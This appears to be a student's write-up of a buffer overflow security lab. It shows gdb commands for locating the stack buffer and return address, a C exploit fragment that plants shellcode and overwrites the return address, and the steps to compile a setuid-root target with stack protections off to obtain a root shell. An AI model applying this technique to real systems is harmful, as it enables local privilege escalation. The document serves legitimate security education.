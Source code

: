 ```yaml
---
title: Buffer Overflow Vulnerability Lab
author: Xinyi Li
date: \today{}
---
```


# Task 1

The `\bin\zsh` is called. I enter a new shell.

# Task 2

Use default `DBUF_SIZE` (i.e. 24)

## Find the address to attack

```shell
$ gcc -z execstack -fno-stack-protector -g -o stack_gdb stack.c
$ gdb stack_gdb
gdb-peda$ p $ebp
$1 = (void *) 0xbfffeb08
gdb-peda$ p &buffer
$2 = (char (*)[24]) 0xbfffeae8
gdb-peda$ p/d 0xbfffeb08-0xbfffeae8
$3 = 32
```

It shows that the value of the frame pointer is `0xbfffeb08`. So the return address is in `0xbfffeb08 + 4` and the first address we can jump to is `0xbfffeb08 + 8`. The distance between `ebp` and the buffer's starting address is 32. Added by 4 bytes stored the return address above, the distance is 36.

So use the [`exploit.c`](./exploit.c) below to compose the `badfile`. The critical code part as below:

```c
int start = 517 - sizeof(shellcode);
strcpy(buffer + start, shellcode);
// set the return address to the location of the malicious command in buffer
int ret = (0xbfffeb08 + start);
strcpy(buffer + 36, (char *)&ret);
```

Then compile and execute all those files as the order of:
```shell
$ gcc -o stack -z execstack -fno-stack-protector stack.c
$ sudo chown root stack
$ sudo chmod 4755 stack
$ gcc -o exploit exploit.c
$ ./exploit
$ ./stack
```
Then you can see a new root bash start with `#`.

![The root bash](./exploit.png)
